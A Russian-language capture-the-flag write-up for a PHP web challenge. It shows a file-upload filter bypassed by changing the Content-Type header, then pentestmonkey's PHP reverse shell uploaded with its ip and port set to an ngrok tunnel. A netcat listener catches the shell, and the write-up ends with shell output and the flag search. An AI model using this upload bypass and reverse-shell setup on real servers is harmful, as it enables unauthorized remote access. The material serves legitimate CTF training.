

# просто php
Посмотрим что вы сможете сделать с этим...

## Hint
Какие форматы файлов принимает сервер?

# WriteUp

## Инструменты
[BurpSute](https://portswigger.net/burp)
<br>[ngrok](https://ngrok.com/)
<br>[netcat](https://netcat.sourceforge.net/)

## Решение
Анализ любого **Web`a** начинается с просмотра кода страницы.

В данном случае просмотр кода страницы нам ничего не дает.

Посмотрим на начальную страницу сервиса


Мы понимаем, что сервис предлагает нам загрузить какой-нибудь файл.

Но прежде чем загружать файл откроем [BurpSute](https://portswigger.net/burp), чтобы
мы могли отслеживать передаваемую информацию.
После чего пробуем загрузить любой рандомный файл.


Как видим, сервер нам ответил ошибкой загрузки файла.
<br>**upload faild!**

Проанализируем запрос отправляемый нами на сервер и увидим, что сервер принимает
только определенного формата файлы.
Первое и логичное, что приходит в голову, это попробовать обдурить сервер, и в **Хедере**
**Content-Type:** поменять значение формата отправляемого файла, на один из тех, что 
сервер принимает.


Меняем значение **Content-Type** на **image/jpeg** и отправляем наш запрос.
<br>Как видим, наш запрос прошел, а сервер ответил, что файл загружен.
<br>**Load in: upload/123.txt**. ОТметим, что после загрузки файла, сервер нам указывает
куда конкретно был загружен файл, а именно в папку **upload**.



Раз мы научились загружать файлы, нам в голову должно прийти, что мы можем загрузить **Shell code
** на сервер.
Чтобы не мучиться и не писать **reverse shell** самостоятельно, загуглим любой **php reverse shell**.
К примеру первый попавшийся в интернете [**PHP REVERSE SHELL**](https://github.com/pentestmonkey/php-reverse-shell).
Скачиваем его себе.(скоро мы к нему вернемся)

**P.S.** В данный момент сервис у меня запущен локально, но я покажу то, как нужно делать, если 
сервис висит во внешней сети, а белого ip-адреса у вас нет.

Так как белого ip-адреса у нас нет, нам на помощь придет утилита [**ngrok**](https://ngrok.com/)
(при первом запуске утилиты, возможно потребуется регистрация).

Команда запуска утилиты очень простая:

```sh
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ ngrok tcp 1337  
```

После чего у нас открывается окно [**ngrok**](https://ngrok.com/) (впадать в объяснения принципа работы утилиты не буду, сами изучите).


```bash
ngrok                                                                                                                                       (Ctrl+C to quit)
                                                                                                                                                            
Announcing ngrok-rs: The ngrok agent as a Rust crate: https://ngrok.com/rust                                                                                
                                                                                                                                                            
Session Status                online                                                                                                                        
Account                       MrNansy (Plan: Free)                                                                                                          
Update                        update available (version 3.2.2, Ctrl-U to update)                                                                            
Version                       3.2.1                                                                                                                         
Region                        Europe (eu)                                                                                                                   
Latency                       -                                                                                                                             
Web Interface                 http://127.0.0.1:4040                                                                                                         
Forwarding                    tcp://6.tcp.eu.ngrok.io:11768 -> localhost:1337                                                                               
                                                                                                                                                            
Connections                   ttl     opn     rt1     rt5     p50     p90                                                                                   
                              0       0       0.00    0.00    0.00    0.00       
```

В дополнительном окне терминала запускаем прослушивание порта 1337.
```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337 
listening on [any] 1337 ...
```

Теперь можно вернуться к нашему скачанному **PHP REVERSE SHELL**

Открываем его на редактирование и меняем нужные нам параметры, а конкретно:
<br>**ip**
<br>**port**


**К примеру:**

<table>
<tr>
<td><b> Было </td> <td><b> Стало </td>
</tr>
<tr>
<td> 

```php
$ip = 127.0.0.1;  // CHANGE THIS
$port = 1337;       // CHANGE THIS
```
</td>
<td>

```php
$ip = '6.tcp.eu.ngrok.io';
$port = 19987;
```

</td>
</tr>
</table>

**P.S.**: Значения берем из окна [**ngrok**](https://ngrok.com/).

Теперь можно вернуться к загрузке файла на сервер, с внесенными изменениями в **Хедер** 
**Content-Type:**


Видим успешную загрузку файла на сервер, осталось только обратиться к этому файлу.

Так как у нас указан путь куда загружается файл, мы туда и перейдем, прям из браузера.

Дописываем в **URL** адрес наш путь **/upload/reverse.php**

**Пример**: http://178.25.13.24:43441/upload/reverse.php

После чего видим, что страница долго грузится...

Тут можно вернуться в окно терминала где у нас включена прослушка порта, и увидим установленное 
**reverse shell** подключение

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337                                     
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47504
Linux a17f12c3b756 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 Linux
sh: w: not found
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
~ $ /bin/sh: can't access tty; job control turned off
```

Сразу проверяем под каким пользователем мы находимся в системе и доступы к каким файлам у на имеются

```bash
┌──(kali㉿kali)-[~/kakaya-to_directoriya]
└─$ nc -lnvp 1337                                     
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47504
Linux a17f12c3b756 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 Linux
sh: w: not found
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
~ $ /bin/sh: can't access tty; job control turned off
~ $ whoami
nobody
~ $ ls -la
total 68
drwxr-xr-x    1 root     root          4096 Apr  6 23:05 .
drwxr-xr-x    1 root     root          4096 Apr  6 23:05 ..
-rwxr-xr-x    1 root     root             0 Apr  6 23:05 .dockerenv
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 bin
drwxr-xr-x    5 root     root           340 Apr  6 23:05 dev
drwxr-xr-x    1 root     root          4096 Apr  6 23:05 etc
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 home
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 lib
drwxr-xr-x    5 root     root          4096 Feb 10 16:45 media
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 mnt
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 opt
dr-xr-xr-x  360 root     root             0 Apr  6 23:05 proc
drwx------    2 root     root          4096 Feb 10 16:45 root
drwxr-xr-x    1 nobody   nobody        4096 Apr  6 23:05 run
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 sbin
drwxr-xr-x    2 root     root          4096 Feb 10 16:45 srv
dr-xr-xr-x   13 root     root             0 Apr  6 23:05 sys
drwxrwxrwt    1 root     root          4096 Apr  6 23:06 tmp
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 usr
drwxr-xr-x    1 root     root          4096 Mar 25 02:18 var
```

Видим что максимальное количество прав на папку **/tmp**

Можно сразу в ней поискать наш флаг с помощью утилиты **grep**.

```bash
~ $ grep -r "RDGCTF" /tmp 
/tmp/fl4g:RDGCTF{php_1nj3cTi0n_v3ry_345y}
```

# Flag
RDGCTF{php_1nj3cTi0n_v3ry_345y}

**P.S.** флаг может отличаться от того что был на CTF, так как я забыл какой флаг туда клал)